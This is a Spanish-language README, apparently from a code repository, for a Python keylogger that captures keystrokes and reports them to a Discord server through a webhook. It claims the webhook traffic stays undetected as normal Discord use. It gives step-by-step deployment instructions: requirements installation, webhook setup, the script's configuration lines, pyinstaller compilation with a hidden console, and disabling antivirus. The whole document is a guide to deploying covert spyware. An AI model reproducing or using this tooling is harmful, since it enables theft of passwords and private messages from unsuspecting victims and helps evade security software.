 
# Keylogger que reporta a Discord #

Este script de python capturara todas las teclas apretadas durante una ventana de tiempo predefinida y las reportara a un servidor de Discord por medio de Webhooks. a diferencia de los metodos tradicionales como "Guardar en un txt" o "Enviar a un email", este metodo permanece indetectado ya que los request de webhook son considerados trafico normal de Discord.


## Deployment

Tener Python instalado en su maquina, descargar el lenguaje desde [aqui](https://www.python.org/downloads/).


## Instalar librerias requeridas
```
python -m pip install -r requirements.txt
```

## Crear un servidor de Discord

Puedes usar [este](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) articulo para ver como hacerlo.

## Crear un Discord Webhook

Ingresa a la configuracion del servidor y selecciona Intergrations >>  Webhooks y crear un nuevo Webhook, se lo puede customizar y darle un nombre y un icono. Es necesario copiar al URL del webhook.

![screenshot](https://i.imgur.com/i084ESb.png)

## Editar keylogger.py

Ahora que poseemos el webhook podemos editar el script en python. Debemos añadir la url al archivo y asegurarnos de colocar el timeframe en el cual deseamos que el kelogger haga los reportes. 

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = "TIEMPO_EN_SEGUNDOS_ACA"
WEBHOOK = "URL_DEL_WEBHOOK_ACA"
```

## Ejecutar el script

Una vez hecho eso, podremos ejecutar el script correctamente.
Para ejecutar el script solo debemos colocar esto en la terminal:
```
python keylogger.py
```
si todo sale bien deberiamos ver el reporte en discord despues de esperar el tiempo establecido.
![c2](https://imgur.com/MxKQE7n.png)

## Compilar el script

Para convertir el archivo en un ejecutable necesitaremos la libreria  pyinstaller que fue incluida en el archivo requirements.txt.
```
pyinstaller keylogger.py --onefile --noconsole
```

(Es necesario desactivar el windows defender/antivirus para probrar el programa)

